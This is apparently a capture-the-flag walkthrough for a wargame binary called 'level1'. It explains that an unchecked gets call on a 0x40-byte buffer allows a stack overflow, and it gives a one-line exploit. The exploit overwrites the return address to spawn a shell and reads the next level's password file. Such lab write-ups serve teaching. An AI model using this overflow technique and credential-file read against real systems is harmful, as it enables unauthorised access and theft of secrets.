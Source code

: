 # Walkthrough

## Step 1: Disassembling the executable

see source.c

The executable calls the gets function on a buffer of 0x40. According to the man, this (deprecated) function reads a line from stdin. There is no check of the size of the input read, so we can easily do a buffer overflow.

## Step 2: Exploit

To exploit this executable, we use the buffer overflow to rewrite the eip register in order to jump to a function that launches a shell as level2.

```
(python -c "print('A'* 0x40 + 'B' * 12 + '\x44\x84\x04\x08')"; echo "cat /home/user/level2/.pass") | ./level1
```
